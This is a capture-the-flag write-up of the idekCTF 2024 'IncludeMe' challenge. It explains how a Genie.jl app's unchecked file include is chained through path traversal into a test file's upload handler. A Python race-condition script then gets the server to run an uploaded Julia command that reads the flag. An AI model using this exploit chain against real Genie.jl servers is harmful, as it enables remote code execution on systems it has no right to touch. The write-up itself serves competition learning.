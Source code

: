 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466SKFC6RUP%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T073424Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEC8aCXVzLXdlc3QtMiJIMEYCIQDdM9WIfpCUh%2FQa2Kp%2BzCc2kBkU%2Fs1bvDSgsZG9375rSQIhAK7q97evE2pSgF20NLk2vagGvTwDz80kDjcgXniiyWtqKogECOj%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgxjKVewzVCG13Xg%2BS0q3AMEHHg1qWZU4EQd913mvt20Ss2dlefHzOR00MFmqey2b76GCHVo0cJDmnRGxrGndonwOC3TfOSE75Yt2WisvQUOfWlX0QeQ6ZfaEUeJVDIUgxeA2BWE66OsYlq1Ajb2M7iyBLU4Uk3flAhgXKXrHUNX4%2BXqo8w6Tt34qZoaTMbq%2FvBnQFRMyW1SoEfHenjgRu01GQ2SoPInOqvQ%2FjPm4rCRNXb51NeezLVdHEeMz%2FYz2ZKyuFP%2FGNFj6H2r%2BhpGgK6aJU8R5k2ewCwNSLEEIXzldZWsIfm9Y96vythDBQ6hVIzGq0bd4Z1xF1v2v1K1Pkp%2BOy1vPN9%2F5b0hSdpXB8HprOGWwaKmQn2JIC8gfpVCU29d%2BLqnVLpDdI17e4RhaoMT%2ByLfglP%2BYvhuIym89RU3FicoGz8wfrD0WX%2BY9peGenXeyerYFt0WdTwngVCs6jFaAjhv1TTGUcstIL5LP2%2FGf148%2F%2Btl8vMQ2RSeVN43QkTgyEP9exyXqQrIvNrB%2B5hjs327OLt2Z4UJwjqxdqsbnbtZb%2B4wO0x%2BwXJCxr%2BLjG5%2FLNDnBF1jg3SFnXb1haIXaUDeeFfz6a%2BcR0rlWXCRGIGp8RfHQMY4V5o2yU%2B206xwIYxKz3hTamU8%2BDCas8DBBjqkAVKIkJWbnhJXmbIJfMCscDRyIx4B2i1vtMt%2BfaKiUsEgxL9nwxWsI59N25i19fy1M2QkrCZWjTKpK7t2oji6X1FuAyeed8ltqaQUqXnAw3tq%2FaFBm6FzhtVQXil9d6xrnZKyVX26ftYsj7RvTTJqh28Xg3f%2BvihyI8pHvRoyPGwyUqdzZF0EzXlL3donS9dBilSDZfnxUajdjqOpY2IpSlqHAN1r\&X-Amz-Signature=9a942d9b12adf84bbeb07227ded07173b30105a6fdfe434592e3f6fb55141c7d\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
